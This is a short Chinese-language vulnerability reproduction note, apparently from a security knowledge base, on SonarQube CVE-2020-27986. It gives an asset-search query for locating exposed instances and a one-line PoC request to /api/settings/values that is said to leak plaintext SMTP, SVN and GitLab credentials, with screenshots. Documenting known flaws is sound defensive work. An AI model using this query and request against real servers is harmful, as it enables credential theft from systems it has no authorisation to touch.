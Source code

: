 # SonarQube values 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

<a-checkbox checked>SonarQube</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="sonarQube-代码管理"</a-checkbox></br>

## 漏洞复现

主页如下

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210627221618861.png)



漏洞POC

```plain
http://xxx.xxx.xxx.xxx/api/settings/values
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210627221628431.png)



可泄露的为：明文SMTP、SVN和Gitlab等敏感信息

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210627221640310.png)